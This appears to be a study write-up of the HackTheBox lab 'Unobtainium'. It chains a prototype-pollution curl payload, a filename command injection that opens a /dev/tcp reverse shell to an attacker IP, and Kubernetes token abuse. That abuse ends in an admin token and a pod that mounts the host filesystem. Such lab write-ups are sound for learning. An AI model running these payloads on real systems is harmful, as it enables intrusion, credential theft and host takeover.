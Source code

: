 ### Prototype Pollution Attack
* https://blog.0daylabs.com/2019/02/15/prototype-pollution-javascript/
* https://codeburst.io/what-is-prototype-pollution-49482fc4b638

### Pull Source
The `postinst` file suggested this was an Electron application, which is a framework for building cross-platform desktop applications using JavaScript, HTML, and CSS. Tons of populate applications are built on Electron, like VSCode, Slack, Discord, Atom, Typora, and Mailspring.

```bash
asar extract opt/unobtainium/resources/app.asar app.asar/
```

### Writeups, foothold and enum
I mostly copied from below to make myself undertand better.

https://0xdf.gitlab.io/2021/09/04/htb-unobtainium.html#

##### Prototype Pollution Attack to get foothold
```bash
curl -X PUT http://unobtainium.htb:31337/ -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"test": "something", "__proto__": {"canUpload": true}}}'

curl -X POST http://unobtainium.htb:31337/upload -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "test"}'

curl -X POST http://unobtainium.htb:31337/upload -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "x; bash -c \"bash >& /dev/tcp/10.10.16.2/443 0>&1\""}'

python -c 'import pty;pty.spawn("bash")'

root@webapp-deployment-5d764566f4-mbprj:/usr/src/app# ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo; fg

reset

reset: unknown terminal type unknown
Terminal type? screen
root@webapp-deployment-5d764566f4-mbprj:/usr/src/app# 
```

##### Lateral movement to another pod
```bash
kubectl auth -h --token $(cat default-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt

kubectl auth can-i --list --token $(cat default-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt

kubectl get pods -n dev --token $(cat default-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt
NAME                                  READY   STATUS    RESTARTS       AGE
devnode-deployment-776dbcf7d6-sr6vj   1/1     Running   3 (114d ago)   114d
devnode-deployment-776dbcf7d6-7gjgf   1/1     Running   3 (114d ago)   114d
devnode-deployment-776dbcf7d6-g4659   1/1     Running   3 (114d ago)   114d


kubectl describe pod devnode-deployment-776dbcf7d6-sr6vj -n dev --token $(cat default-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt

Name:             devnode-deployment-776dbcf7d6-sr6vj
Namespace:        dev
Priority:         0
Service Account:  default
Node:             unobtainium/10.129.136.226
Start Time:       Mon, 29 Aug 2022 21:32:21 +1200
Labels:           app=devnode
                  pod-template-hash=776dbcf7d6
Annotations:      <none>
Status:           Running
IP:               10.42.0.33
IPs:
  IP:           10.42.0.33
Controlled By:  ReplicaSet/devnode-deployment-776dbcf7d6
Containers:
  devnode:
    Container ID:   docker://d210cfcf02a8b3fd035fadb8cf88e3ccee93da9e52732efea0c6ea6a498880a0
    Image:          localhost:5000/node_server
    Image ID:       docker-pullable://localhost:5000/node_server@sha256:e965afd6a7e1ef3093afdfa61a50d8337f73cd65800bdeb4501ddfbc598016f5
    Port:           3000/TCP
    Host Port:      0/TCP
    State:          Running
      Started:      Wed, 21 Dec 2022 18:22:32 +1300
    Last State:     Terminated

curl -X PUT http://10.42.0.33:3000/ -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"test": "something", "__proto__": {"canUpload": true}}}'

curl -X POST http://10.42.0.33:3000/upload -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "x; bash -c \"bash >& /dev/tcp/10.10.16.2/443 0>&1\""}'
```

### List namespaces
```bash
kubectl get namespaces --token $(cat default-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt

NAME              STATUS   AGE
default           Active   114d
kube-system       Active   114d
kube-public       Active   114d
kube-node-lease   Active   114d
dev               Active   114d
```

### Check permission under kube-system
```bash
kubectl auth can-i --list -n kube-system --token $(cat dev-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt

Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
secrets                                         []                                    []               [get list]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
                                                [/api]                                []               [get]
                                                [/apis/*]                             []               [get]
                                                [/apis]                               []               [get]
                                                [/healthz]                            []               [get]
                                                [/healthz]                            []               [get]
                                                [/livez]                              []               [get]
                                                [/livez]                              []               [get]
                                                [/openapi/*]                          []               [get]
                                                [/openapi]                            []               [get]
                                                [/openid/v1/jwks]                     []               [get]
                                                [/readyz]                             []               [get]
                                                [/readyz]                             []               [get]
                                                [/version/]                           []               [get]
                                                [/version/]                           []               [get]
                                                [/version]                            []               [get]
                                                [/version]                            []               [get]
```

### List secrets resource via the kube-system permission
```bash
kubectl get secrets -n kube-system --token $(cat dev-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt

c-admin-token-b47f7                                  kubernetes.io/service-account-token   3      114d
```

### Get the admin token
```bash
kubectl describe secret c-admin-token-b47f7 -n kube-system --token $(cat dev-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt
```

### Verify that it's full admin
```bash
kubectl auth can-i --list --token $(cat cadmin-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt

Resources                                       Non-Resource URLs                     Resource Names   Verbs
*.*                                             []                                    []               [*]
                                                [*]                                   []               [*]
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
                                                [/api]                                []               [get]
                                                [/apis/*]                             []               [get]
                                                [/apis]                               []               [get]
                                                [/healthz]                            []               [get]
                                                [/healthz]                            []               [get]
                                                [/livez]                              []               [get]
                                                [/livez]                              []               [get]
                                                [/openapi/*]                          []               [get]
                                                [/openapi]                            []               [get]
                                                [/openid/v1/jwks]                     []               [get]
                                                [/readyz]                             []               [get]
                                                [/readyz]                             []               [get]
                                                [/version/]                           []               [get]
                                                [/version/]                           []               [get]
                                                [/version]                            []               [get]
                                                [/version]                            []               [get]
```

### Root as Filesystem by creating a new pod
##### Find Image
As with previous docker attacks, the idea is to create a new container and map the host filesystem into the container, where I will be root. That is basically root access to the host filesystem. The YAML files described in the articles all involve pulling docker images from the internet. Because Unobtainium won’t have internet access, I’ll opt to work from an image that’s already on the host.

I can get the full YAML for a pod with `get pod [name] -n [namespace]`:

I’ll loop over all the pods and see what images they are running. There’s only two:

```bash
kubectl get pods --all-namespaces --token $(cat cadmin-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt | grep -v NAMESPACE | while read line; do ns=$(echo $line | awk '{print $1}'); name=$(echo $line | awk '{print $2}'); kubectl get pod $name -o yaml -n $ns --token $(cat cadmin-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt | grep '  - image: '; done | sort -u

  - image: localhost:5000/dev-alpine
  - image: localhost:5000/node_server
```

##### Malicious Pod with two alternative yamls
I choose alpine because it’s smaller, node_server works too.

I’ve added the host filesystem `/` as a mount point inside the container.

Pods (like Docker containers) run until their main command is done. I’ll just add a long sleep as the main command (`tail -f /dev/null` is another good one to hold priority).

```bash
kubectl apply -f root.yaml --token $(cat cadmin-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt

kubectl exec baturu02 --stdin --tty -n kube-system --token $(cat cadmin-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt -- /bin/sh

/ # cat mnt/root/root.txt
```

```bash
kubectl apply -f root2.yaml --token $(cat cadmin-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt

kubectl --token $(cat cadmin-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt get pod baturu11 -n kube-system
```